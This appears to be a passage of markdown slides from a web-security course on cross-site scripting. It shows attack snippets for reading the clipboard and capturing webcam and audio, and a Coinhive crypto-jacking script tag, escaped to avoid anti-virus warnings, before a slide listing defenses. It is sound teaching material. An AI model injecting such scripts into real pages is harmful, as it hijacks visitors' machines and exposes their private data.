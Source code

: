 [Harlem Shake](https://www.youtube.com/watch?v=K0noqLisW_c)

--

## Cross-Site Scripting (XSS): attack
<hr />

![](pics/XSSExample.png)

--

## Cross-Site Scripting (XSS): attack
<hr />

Read clipboard:
```javascript
window.clipboardData.getData('Text');
```

Webcam video & audio:
```javascript
stream = await navigator.mediaDevices.getUserMedia(constraints);
```


Crypto-jacking:
 
<pre comment='use unicode characters to avoid anti-virus warnings'>
&#60;script src="https://coin-hive.com/lib/coinhive.min.js" &#62; &#60;/script&#62; 
&#60;script&#62;
  var miner = new CoinHive.Anonymous('[my account id]');
  miner.start();
&#60;/script&#62;
</pre>

--

## Cross-Site Scripting (XSS): defense
<hr />

* Input validation
* Content escaping (context aware)
* Content encoding (context aware)
* Content-Security-Policy: script-src 'self' 
